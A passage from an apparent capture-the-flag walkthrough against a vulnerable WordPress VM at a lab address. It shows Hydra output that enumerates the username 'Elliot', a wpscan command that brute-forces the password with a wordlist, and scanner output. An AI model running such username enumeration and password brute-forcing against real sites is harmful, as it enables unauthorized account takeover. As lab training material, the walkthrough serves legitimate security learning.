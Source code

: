 ```
[ATTEMPT] target 10.0.0.48 - login "eps1" - pass "test" - 23 of 858235 [child 9] (0/0)
[ATTEMPT] target 10.0.0.48 - login "null" - pass "test" - 24 of 858235 [child 10] (0/0)
[80][http-post-form] host: 10.0.0.48   login: page   password: test
[ATTEMPT] target 10.0.0.48 - login "chat" - pass "test" - 25 of 858235 [child 15] (0/0)
[ATTEMPT] target 10.0.0.48 - login "user" - pass "test" - 26 of 858235 [child 1] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Special" - pass "test" - 27 of 858235 [child 5] (0/0)
[ATTEMPT] target 10.0.0.48 - login "GlobalNavigation" - pass "test" - 28 of 858235 [child 6] (0/0)
[ATTEMPT] target 10.0.0.48 - login "images" - pass "test" - 29 of 858235 [child 7] (0/0)
[ATTEMPT] target 10.0.0.48 - login "net" - pass "test" - 30 of 858235 [child 12] (0/0)
[80][http-post-form] host: 10.0.0.48   login: Elliot   password: test
```
Okay so that is a lot to look at. Now on my terminal screen, and yours too if you are following along, if Hydra found a match, that line highlights green. I see a username "Elliot" and password "test". Let's try that out!  

If we try to login with username "Elliot", we get the error message;  
"ERROR: The password you entered for the username Elliot is incorrect. Lost your password?"  
This is great because now we know we have a real username that we can use! Hydra did its job and we discovered a username. However, we do not know if the user is privileged, or just a regular user. But we can run the test again if 
we wanted to in order to find more usernames.  
  
  
**Password Bruteforcing:** 
*The username is locked. Time to pull the trigger and crack this website!*  
  
With the username "Elliot" this better be a privileged user, otherwise the creator of this VM SUCKS! LOL. It would only make sense to have Elliot have admin access!  
  
Now, it is time to use one of my favorite tools...**WPSCAN**!!!  
  
This is going to be easy to use. Follow along;  
```
$ wpscan --url http://10.0.0.48 --passwords fsocity.dic --usernames Elliot  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database
[i] Update completed.

[+] URL: http://10.0.0.48/ [10.0.0.48]
[+] Started: Thu Dec 29 07:13:37 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.0.0.48/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%
```